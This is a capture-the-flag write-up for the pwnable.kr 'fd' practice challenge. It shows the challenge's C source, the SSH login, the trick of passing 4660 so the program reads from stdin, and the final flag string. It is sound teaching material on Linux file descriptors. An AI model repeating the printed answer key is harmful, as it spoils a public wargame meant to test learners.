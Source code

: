 # Toddler's Bottle

### Question

> Mommy! what is a file descriptor in Linux?
> 
> ssh fd@pwnable.kr -p2222 \(pw:guest\)

<button class="section" target="solution" show="Show solution" hide="Hide solution"></button>

<!--sec data-title="Solution" data-id="solution" data-show=false ces-->

### Step 1: SSH to the remote, and look around

```sh
$> ssh fd@pwnable.kr -p2222
fd@pwnable.kr\'s password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.smashthestack.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal

fd@ubuntu:~$ ls
fd  fd.c  flag

fd@ubuntu:~$ cat flag
cat: flag: Permission denied
```

We can see that we cannot read the flag (duh!) - Maybe the other file has something.


### Step 2: See what is inside other files

```bash
fd@ubuntu:~$ cat fd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
            printf("pass argv[1] a number\n");
            return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
            printf("good job :)\n");
            system("/bin/cat flag");
            exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}

fd@ubuntu:~$

```

### Step 3: Get the flag

OK, `fd.c` MUST have access to the file! It expects an argument that will become a _file descriptor_. 
According to the [Linux MAN page](http://man7.org/linux/man-pages/man3/stdout.3.html), `STDIN` is associated with filedescriptor `0`. 
That means we have to make `fd=0` if we want to pass our input to the program.
If we use `0x1234` as an argument, `fd` would become `STDIN` and we can enter the password `LETMEWIN` :)

We call the `fd` program with argument 4660 (`0x1234` in decimal) and enter the `LETMEWIN` right after that:

```bash
fd@ubuntu:~$ ./fd `python -c "print 0x1234"` # This is equivalent to './fd 4660'
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
fd@ubuntu:~$
```

So the flag is `mommy! I think I know what a file descriptor is!!`
<!--endsec-->


